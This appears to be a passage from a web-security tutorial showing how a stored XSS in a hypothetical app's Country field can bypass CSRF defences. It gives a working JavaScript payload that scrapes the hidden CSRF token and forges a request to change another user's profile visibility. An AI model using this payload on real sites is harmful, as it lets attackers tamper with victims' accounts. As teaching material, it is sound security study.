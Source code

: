 Imagine a web application that has a mini-profile feature, which shows a user's name, email, and country. It also has a "Change Visibility" functionality, that allows a user to make their profile public or private.

Additional facts about the application:
- The application features same origin/same site protections as anti-CSRF measures (through a server configuration)
- The application's _Country_ field is vulnerable to stored XSS attacks.

For this scenario, we will target the Change Visibility functionality, because a successful CSRF attack would cause the disclosure of a private profile.

We will use the following payload and insert it in the Country field:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
> Note: The snippet `/name="csrf" type="hidden" value="(\w+)"/)[1];` looks for a hidden input field called _csrf_ and \w+ matches one or more alphanumeric characters. We know there is an input field called _csrf_ by reading the page's source code using developer tools.

To simulate a victim visiting our profile, we will open an incognito window and login as a different user, we will then visit our now public profile and the payload from our original profile will execute